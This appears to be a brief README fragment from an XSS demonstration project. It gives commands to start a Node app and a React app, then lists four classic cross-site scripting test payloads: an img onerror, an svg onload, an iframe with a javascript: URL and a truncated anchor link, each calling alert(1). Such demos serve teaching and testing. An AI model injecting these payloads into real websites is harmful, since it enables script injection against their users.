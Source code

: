 cd xss-demo & node app.js

cd react-xss-demo & npm start

```
<img src=x onerror=alert(1)>

<svg/onload=alert(1)>

<iframe src='javascript:alert(1)'></iframe>

<a href='javascript:alert(1)'>click</a
```
